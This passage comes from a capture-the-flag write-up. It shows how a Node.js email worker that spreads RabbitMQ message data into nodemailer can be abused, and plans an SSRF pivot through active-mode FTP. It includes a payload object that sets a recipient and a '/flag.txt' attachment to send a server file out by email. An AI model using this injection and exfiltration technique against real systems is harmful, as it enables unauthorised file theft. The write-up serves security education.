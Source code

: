 But don't forget rabbitmq servers as the email queue. If we can poison or inject some data into rabbitmq, we can make the email server send something out. Let's dive in the source code of email server first:

```javascript=
    let channel = await rabbit.createChannel();
    channel.consume("email", async (msg) => {
        if (msg === null) {
            return;
        } 
        channel.ack(msg);

        try {
            let data = JSON.parse(msg.content.toString());
            await transport.sendMail({
                from: "plaid2020problem@gmail.com",
                subject: "Your Account",
                ...data,
            }); 
        } catch (e) {
            console.error(e);
        } 
    })
```

The triple dot is called [Spread syntax](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_syntax). Basically if we can inject the data into rabbitmq, we can control the object. In the [`transport.sendMail` document](https://nodemailer.com/message/), we can insert `attachments` and `to` to exfiltrate any file to our mail account in the email server.

Does it ring a bell? The email server contains the flag!

#### Make SSRF Great Again with Active FTP

The idea is clear now: use SSRF to poison the data `{to: "email@example.com", attachments:[{path:"/flag.txt"}]}`into rabbitmq, and just check the flag in the email.

However, either rabbitmq AMQP protocol or rabbitmq HTTP API requires pretty complicated payload to exploit. This is definitely not doable via HTTP-based SSRF.

The only hope, FTP-based SSRF, requires the remote server to send something first. Both AMQP and HTTP API won't greet the client first.

Which protocol greet the client? Of couse, the FTP server itself. Can we leverage ftp server to sharpen our SSRF?

FTP server has 2 modes, active and passive mode respectively. [This website](https://slacksite.com/other/ftp.html#actexample) explains them clearly with raw payload.

To sum up:

In active mode:
- Download (RETR): the client specifies IP and the server sends the file to it.
- Upload (STOR): the client specifies IP and the server retrieves the file from it.

In passive mode:
- Download (RETR): the server specifies IP and the client retrieves the file from it.
- Upload (STOR): the server specifies IP and the client sends the file to it.
